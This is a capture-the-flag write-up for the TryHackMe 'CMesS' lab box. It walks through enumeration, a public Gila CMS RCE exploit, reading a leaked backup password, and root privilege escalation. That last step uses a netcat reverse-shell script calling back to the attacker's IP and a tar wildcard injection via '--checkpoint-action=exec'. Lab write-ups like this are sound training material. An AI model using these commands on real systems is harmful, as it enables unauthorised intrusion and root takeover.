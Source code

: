 # THM - CMesS

#### Ip: 10.10.246.242
#### Name: CMesS
#### Difficulty: Medium

----------------------------------------------------------------------

![cmess.png](../assets/cmess_assets/cmess.png)

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also use the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/THM/CMesS]
└─$ sudo nmap -p-  --min-rate 10000 10.10.246.242
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-30 10:08 CDT
Nmap scan report for 10.10.246.242
Host is up (0.13s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 9.12 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/THM/CMesS]
└─$ sudo nmap -sC -sV 10.10.246.242 -p 22,80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-30 10:09 CDT
Nmap scan report for 10.10.246.242
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9b652d3939a3850b4233bfd210c051f (RSA)
|   256 21c36e318b85228a6d72868fae64662b (ECDSA)
|_  256 5bb9757805d7ec43309617ffc6a86ced (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 3 disallowed entries 
|_/src/ /themes/ /lib/
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-generator: Gila CMS
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.00 seconds
```

Navigating to the site we find a default Gila CMS landing page:

![site.png](../assets/cmess_assets/site.png)

Per the instructions/ hint, it looks like we'll need to do some fuzzing here. We can do that with wfuzz:

fuzz.png

Cool, looks like we've also got a dev.cmess.thm, lets add that to `/etc/hosts` as well. 

Checking out the page we find a chat between user andre and the support team, and included in the chat is a password!

dev.png

Navigating to http://cmess.thm/admin we can use these credentials to login to andre's account:

admin.png

### Exploitation

At the bottom of the page we find the version number for Gila: `Gila CMS version 1.10.9`

Searching for public exploits I came across https://www.exploit-db.com/exploits/51569 which looks promising. 

Taking a look at the code it looks like we're exploiting the .htaccess mentioned in the dev notes. Lets give this a shot.

Lets fire off the script using:

```text
┌──(ryan㉿kali)-[~/THM/CMesS]
└─$ python gila_1.10.9_rce.py
```

And we can catch a shell back as www-data:

shell.png

Trying to access andre's home direcotory we get an access denied error:

```text
www-data@cmess:/var/www/html/tmp$ cd /home
cd /home
www-data@cmess:/home$ ls
ls
andre
www-data@cmess:/home$ cd andre
cd andre
bash: cd: andre: Permission denied
```

Looks like we'll need to look around a bit more.

Checking out the `/opt` folder we find a backup file with with andre's credentials:

```text
www-data@cmess:/opt$ cat .password.bak
cat .password.bak
andres backup password
UQfsdCB7aAP6
```

We can use this password to switch users to andre and grab the user.txt flag:

user_flag.png

### Privilege Escalation

Taking a look at `/etc/crontab` to find any cronjobs, we find a job run by root that uses tar on everything/* in `/home/andre/backup`

```text
# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```
Because this job is using a wildcard, we should be able to exploit this. 

Lets create a bash script in the `/backup` directory with:

```text
andre@cmess:~/backup$ cat > /home/andre/backup/shell << EOF
> #!/bin/bash
> rm /tmp/test
> mkfifo /tmp/test
> cat /tmp/test|/bin/sh -i 2>&1|nc 10.6.61.45 8888 >/tmp/test
> EOF
```
Then run:

```text
echo "" > "/home/andre/backup/--checkpoint=1"
echo "" > "/home/andre/backup/--checkpoint-action=exec=sh shell"
```

After two minutes (or less) we should catch a shell in our netcat listener and be able to grab the root.txt flag:

root_flag.png

Thanks for following along!

-Ryan

-------------------------------------------



